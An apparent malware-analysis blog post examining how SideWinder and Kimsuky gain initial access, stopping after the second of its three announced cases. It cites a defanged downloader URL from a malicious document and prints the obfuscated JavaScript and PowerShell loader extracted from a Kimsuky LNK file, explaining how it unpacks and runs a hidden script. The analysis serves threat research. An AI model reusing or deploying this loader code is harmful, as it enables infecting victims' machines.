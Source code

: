 ```yaml
---
layout: post
title: "Looking into Initial Access Payloads by APT Groups"
date: 2025-02-07
categories: ["Non-PE Malware"]
---
```


## Contents
- Introduction.
- Motivation.
- Technical Analysis
    - Case 1 : Sidewinder using malicious document to drop RTF Payload.
    - Case 2 : Kimsuky using malicious LNK file to drop PowerShell payload.
    - Case 3 : Gamaredon using HTA to drop further malware.
- YARA Rule.
    - Detecting Maldoc.
    - Detecting LNK.
    - Detecting HTA.
- IOCs.
- Limitations.
- MITRE ATT&CK.

## Introduction
![image](https://github.com/user-attachments/assets/b975d5f5-9074-4bd4-b747-efbaaa380ffd)

I recently started learning about maldoc analysis as part of my malware analysis journey. During this process, I explored different APT groups, including SideWinder( 🇮🇳 ), Kimsuky ( 🇰🇵 ) , and Gamaredon ( 🇷🇺 ). I analyzed their samples, focusing on how they gain initial access. To conduct my research, I used platforms like VirusTotal, Twitter, and MalwareBazaar to find and study real-world malware samples.So, I am writing this blog which contains my findings for the same.

## Motivation

My motivation is to explore different areas of malware analysis and gain a deeper understanding of how cyber threats operate. By researching various APT groups, I can learn about different initial access techniques used by attackers. This helps in understanding the diverse ways cybercriminals infiltrate systems. The more APT groups I analyze, the better I can recognize attack patterns and improve threat detection skills. My goal is to continuously expand my knowledge in Malware Analysis and Threat Research.

## Technical Analysis

I wanted to learn about different APT groups and how they execute attacks in the initial phase. So, I collected three malware samples of different APT groups from MalwareBazaar and studied their initial attack methods.

Each group uses a different approach:

- SideWinder delivers a malicious document (Maldoc).
- Kimsuky uses a LNK file.
- Gamaredon deploys an HTA file.

Now, I will analyze these files to understand their attack techniques.

### Case 1 : Sidewinder using malicious document to drop RTF Payload.

During my analysis of an initial phishing attempt, I came across a document file. To examine its internal structure, I used the oleid command, which helped identify that the file contained an external relationship. This indicated that the document might be referencing or attempting to fetch external content.

![image](https://github.com/user-attachments/assets/e758e58b-4572-4da6-9d70-94862601927d)


To dig deeper, I used the `oleobj` command, which revealed that the document was configured to **download an RTF file from an external source**. The URL of this external file was embedded within the document, and the file being fetched was named **profile.rtf**. This suggests that the document was likely being used to execute a second-stage payload, making it a potential **malicious downloader**.

`hxxps://pubad-gov-lk.org-co.net/10472857/Profile.rtf`

Then, after doing some research, I found that this is a **decoy RTF file**, while the actual **RTF payload** had already been removed from the **C2 server**.

For anyone interested in researching further on **how SideWinder targets victims or delivers the actual RTF payload**, you can refer to this [research](https://blog.strikeready.com/blog/rattling-the-cage-of-a-sidewinder/).

### Case 2 : Kimsuky using malicious LNK file to drop PowerShell payload.

In this case, I analyzed an **LNK file** and began by examining its **file structure**. During the analysis, I identified the following **flags**, which I will detail below.

LNK File Structure Analysis :

- **Flags Breakdown**:
    - `HasLinkTargetIDList`: Indicates that the LNK file contains a target ID list, pointing to a specific file or directory.
    - `HasLinkInfo`: Provides additional path information about the target file.
    - `HasArguments`: 
    When `HasArguments` is set, it means the LNK file has extra parameters (Command -line arguments) that will be executed when the shortcut is opened.
    - `EnableTargetMetadata`: Allows retrieving metadata for the target file.
      
- Target Execution Path:
  
  ![image_kimsuky](https://github.com/user-attachments/assets/88a27a9c-a177-4722-a1d2-186294f46347)

- **LinkTargetIDList →** `CLSID_MyComputer\C:\Windows\System32\mshta.exe`
- `mshta.exe` is a legitimate Windows utility, but attackers often misuse it to run **obfuscated JavaScript** for executing hidden **PowerShell commands**. This can download and execute malicious files. This technique falls under **LOLBins**, where trusted Windows utilities are exploited to bypass security detection.

Command-Line Arguments: Embedded JavaScript Execution

The **Command-Line Arguments** field in the LNK file contains **JavaScript code**, which will be executed along with **`mshta.exe`**. This means that when the LNK file is opened, `mshta.exe` will **run the JavaScript code**, potentially executing further malicious scripts.

Extracted JavaScript Code :

After extracting the JavaScript embedded in the LNK file, I obtained the following script:

```jsx
javascript:v=" -Encoding Byte;sc ";
s="a=new Ac"+"tiveXObject('WSc"+"ript.Shell');a.Run(c,0,true);close();";
c="powe"+"rshell -ep bypass -c $t=0x1be8;$k = Get-ChildItem .lnk | where-object {$*.length -eq $t} | Select-Object -ExpandProperty Name;
if($k.count -eq 0){$k=Get-ChildItem $env:T"+"EMP\\\\*.lnk | where-object{$*.length -eq $t};};
$w='c:\\programdata\\d.ps1';
$f=gc $k"+v+"$w ([byte[]]($f | sel"+"ect -Skip 0x094a)) -Force"+v+"c:\\programdata\\b21111 0;
po"+"wersh"+"ell -ep bypass -f $w;";
eval(s);
```
This JavaScript code is trying to run a hidden **PowerShell command** using `mshta.exe`. It does this in several steps:

- The script creates a **WScript.Shell** object, which helps run commands on Windows.
- It then prepares a PowerShell command and executes it.
- The script looks for a **.lnk (shortcut) file** in the current folder.
- If it doesn't find the file, it searches in the **TEMP folder**.
- It checks if the file has a **specific size (7144 bytes)** to make sure it's the correct one.
- The script **reads the contents** of the .lnk file.
- It **skips the first part** of the file (2378 bytes) and extracts **some hidden data**.
- This data is saved as a new **PowerShell script** (`d.ps1`).
- The script **runs `d.ps1` using PowerShell**, which could be another piece of malware.
- It also calls another unknown program (`b21111`), which might be part of the attack.

Then, after researching the d.ps1 file, I found that it is obfuscated, which further on de-obfuscating, I found it has been downloading another ZIP file containing malware known as gs.zip , which contains the final payload.

